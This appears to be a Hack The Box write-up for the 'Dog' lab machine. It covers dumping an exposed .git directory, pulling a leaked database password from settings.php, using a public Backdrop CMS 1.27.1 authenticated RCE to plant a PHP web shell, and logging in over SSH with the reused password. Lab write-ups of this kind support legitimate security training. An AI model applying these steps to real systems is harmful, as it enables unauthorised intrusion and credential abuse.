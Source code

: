 # DOG machine - HTB LABS

We have 2 port open
- 22
- 80 

on the port 80 we have CMS backdrop with 2 pages:
- Login
- About

About page contains only images & text, so nothing to exploit. But Login contains 2 input (email & password) so we can login after get some creds

if you Fuzz directory we can discover "/.git", so go to upload all source code:


Wget all files on .git:
```
wget -I .git -r http://10.10.11.58/.git
```

get the path of Master Hash:
```
cat HEAD
```

Get .zip of source code:
```
git archive --format zip --output "source.zip" <MASTER HASH>
```

After all it, we can explore some files and in settings.php at the racine we can view 

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

After get the password, now go found the user in "cat 10.10.11.58/10.10.11.58/.git/dog/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json 
```
{
    "_config_name": "update.settings",
    "_config_static": true,
    "update_cron": 1,
    "update_disabled_extensions": 0,
    "update_interval_days": 0,
    "update_url": "",
    "update_not_implemented_url": "https://github.com/backdrop-ops/backdropcms.org/issues/22",
    "update_max_attempts": 2,
    "update_timeout": 30,
    "update_emails": [
        "tiffany@dog.htb"
    ],
    "update_threshold": "all",
    "update_requirement_type": 0,
    "update_status": [],
    "update_projects": []
}
```

In the Website we can get the version of the CMS BackDrop: 1.27.1 and this version contains critical Authenticated RCE:
"https://www.exploit-db.com/exploits/52021"

to launch the RCE go execute with python3 and the code generate file zip with:
- shell.info
- shell.php

Now upload your TAR file in upload page on th website and go in this url:
"http://10.10.11.58/modules/shell/shell.php"

Now in the web shell check the /home/user and we can see this user:
- johncusack

try to connect on ssh with this user and the same password of tiffany email
```
ssh johncusack@10.10.11.58
```

USER.TXT IS FLAGGED !



